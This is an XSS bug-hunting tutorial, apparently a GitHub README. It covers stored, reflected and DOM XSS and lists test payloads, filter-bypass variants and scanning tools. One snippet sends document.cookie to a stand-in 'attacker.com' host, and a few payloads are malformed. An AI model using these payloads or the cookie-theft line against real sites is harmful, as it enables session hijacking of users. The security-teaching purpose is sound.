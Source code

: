 # What is XSS (Cross-Site Scripting)? 🤔

```
  - It allows attackers to inject malicious scripts into websites.
  - These scripts then run in the browser of other users who visit that website.
  - The attacker can steal information, manipulate the website’s content, or even take control of a user’s session.
  - Medium Risk ( low impact + high probability = medium risk )
```

# 🎯 Why is XSS Dangerous?
```
 - Steal cookies and session tokens (can take over user accounts). / Keylogging
 - Redirect users to malicious websites. / Phishing / URL Redirection
 - Modify the website’s content.
 - Spread malware.
```


# 📋 Types of XSS:
```
Stored XSS (Persistent):
	- Malicious code is saved on the website’s server (e.g., in comments or profiles).
	- Example: An attacker writes harmful JavaScript in a comment box, and every visitor sees the harmful script.

Reflected XSS:
    - The malicious script is included in a URL or form input.
    - Example: An attacker sends a link with malicious code, and if the victim clicks it, the script runs.

DOM-based XSS:
    - Happens when the client-side script processes untrusted data.
    - Example: A website’s JavaScript dynamically updates the page using URL parameters without validation.
```

# 🔎 How to Hunt for XSS (Cross-Site Scripting)?

## 🛠 Steps to Hunt for XSS:

### 📌 Step 1: Identify User Input Fields
```
Look for places where a website accepts user input and displays it back. These can include:
    - Search boxes
    - Comment sections
    - Login forms
    - URL parameters (GET requests)
    - Cookies and headers
    - File upload functionality
```

### 📌 Step 2: Test for Reflected XSS (Quick Wins)
## Reflected XSS occurs when a script is injected into a URL or input field and gets reflected back immediately.

### ✅ Payloads to Try:
#####  Basic Payloads:
```
<script>alert('XSS');</script>
```

```
<img src=x onerror=alert('XSS')>
```
```
<svg onload=alert('XSS')>
```

### 2. In URL Parameters:
````
Try injecting payloads into URL parameters.

Example:
   php
       - https://example.com/search?query=<script>alert('XSS')</script>
````

### 3.In Input Fields:
```
Enter the payload in form fields, such as a login form, search box, or feedback form.
```

### 📌 Step 3: Test for Stored XSS (Persistent XSS)
## Stored XSS occurs when your malicious input is saved on the server and shown to other users.

### ✅ Places to Check:
```
 - Comment sections
 - Profile fields
 - Message boards
 - File uploads (malicious scripts inside files)
```

### 🚩 Steps:
```
Post a comment like this: <script>alert('Stored XSS');</script> 
  - Refresh the page and see if the script runs for you or other users. 
```


### 📌 Step 4: Test for DOM-Based XSS

## DOM-based XSS happens when the website’s JavaScript manipulates the DOM using user input without proper validation.

### ✅ Payloads to Try:
```
Enter this in the URL:
  https://example.com/#<script>alert('DOM XSS');</script>
  Or test in the input fields:  <input type="text" onfocus="alert('XSS')">
```
### 🚩 Look for JavaScript Functions
```
Check if the website uses functions like innerHTML, document.write(), or eval().
```



### 📌 Step 5: Use XSS Payloads Lists
## Use pre-built XSS payload lists to try various injections.
### 🔗 Payloads All The Things (GitHub):

```
 https://github.com/swisskyrepo/PayloadsAllTheThings
```

### 📌 Step 6: Use XSS Hunting Tools
#### 🧰 1. Burp Suite (Most Popular)
```
Intercept requests and modify user input to inject XSS payloads.
Use Burp Scanner to automate XSS checks.
```
#### 🧰 2. OWASP ZAP (Free and Open Source)
```
Automated scanner for finding XSS and other vulnerabilities.
```
#### 🧰 3. XSStrike
```
A dedicated XSS tool that intelligently finds and exploits XSS vulnerabilities.
   - git clone https://github.com/s0md3v/XSStrike
   - python3 xsstrike.py -u https://example.com
```
#### 🧰 4. XSS Hunter (Advanced)
```
   - Use XSS Hunter to find blind XSS vulnerabilities.
   - It provides a custom tracking domain to catch XSS that doesn't show immediate output.
```
### 📌 Step 7: Bypass Filters (WAF/Firewalls)
```
Some websites may block basic payloads. Try bypass techniques:
 - Bypass Tags:
        <<script>alert('XSS');</script>
 - Using Unicode Encoding:
        <scrİpt>alert('XSS')</scrİpt>
 - Using Obfuscation:
        <img src=x onerror='javasc'+'ript:alert("XSS")'>
 - Using Event Handlers:
        <input type="text" onfocus="alert('XSS')">
 ```
### 📌 Step 8: Report XSS Vulnerabilities
```
If you find an XSS vulnerability, report it responsibly to the website owner or use bug bounty platforms like:
HackerOne (https://hackerone.com)
Bugcrowd (https://bugcrowd.com)
Intigriti (https://www.intigriti.com)
```
## 🚩 Signs of a Successful XSS:
```
You see an alert box.
You can steal cookies using:
<script>
    fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>
```
### Payload
```
alert(document.domain);
"><script>alert(1)</script>
"/> <script>alert("XSS")</script>
```


### Payload
```
<script>alert('xss')</scripts>


```
